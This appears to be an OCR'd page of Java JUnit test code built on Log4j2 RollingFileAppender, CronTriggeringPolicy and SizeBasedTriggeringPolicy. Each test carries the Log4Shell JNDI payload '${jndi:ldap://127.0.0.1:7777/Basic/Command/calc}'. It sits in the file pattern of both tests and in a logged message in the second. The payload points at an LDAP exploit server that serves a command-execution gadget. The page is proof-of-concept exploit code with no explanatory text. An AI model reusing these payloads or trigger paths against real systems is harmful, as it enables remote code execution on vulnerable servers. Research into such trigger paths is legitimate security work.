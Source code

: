 **CronTriggerPolicy.initialize()**

```
 @Test
    public void cronTriggerPolicyTest(){
        PatternLayout layout = PatternLayout.newBuilder()
                .withConfiguration(new DefaultConfiguration())
                .withPattern("%d{HH:mm:ss.SSS} [%t] %-5level %logger{36} - %msg%n")
                .build();

        RollingFileAppender appender = RollingFileAppender.newBuilder().setConfiguration(new DefaultConfiguration())
                .withFileName("app.log")
                .withFilePattern("${jndi:ldap://127.0.0.1:7777/Basic/Command/calc}")
                .setLayout(layout)
                .withAppend(true)
                .setName("RollingFile")
                .withPolicy(CronTriggeringPolicy.createPolicy(new DefaultConfiguration(), "true", "0 * * * * ?"))
                .withStrategy(DefaultRolloverStrategy.newBuilder()
                        .withMax(String.valueOf(3))
                        .withConfig(new DefaultConfiguration())
                        .withFileIndex("min")
                        .build())
                .build();
    }
```

**RollingFileAppender.append()**
```
    @Test
    public void appendRollingFileAppenderTest(){
        PatternLayout layout = PatternLayout.newBuilder()
                .withConfiguration(new DefaultConfiguration())
                .withPattern("%d{HH:mm:ss.SSS} [%t] %-5level %logger{36} - %msg%n")
                .build();

        RollingFileAppender appender = RollingFileAppender.newBuilder().setConfiguration(new DefaultConfiguration())
                .withFileName("app.log")
                .withFilePattern("${jndi:ldap://127.0.0.1:7777/Basic/Command/calc}")
                .setLayout(layout)
                .withAppend(true)
                .setName("RollingFile")
                .withPolicy(SizeBasedTriggeringPolicy.createPolicy("1B"))
                .withStrategy(DefaultRolloverStrategy.newBuilder()
                        .withMax(String.valueOf(3))
                        .withConfig(new DefaultConfiguration())
                        .withFileIndex("min")
                        .build())
                .build();

        LogEvent logEvent = new MutableLogEvent(new StringBuilder("${jndi:ldap://127.0.0.1:7777/Basic/Command/calc}"), null);
        appender.getManager().writeBytes("asdasdasd1".getBytes(), 0 ,10);
        appender.append(logEvent);
    }
```
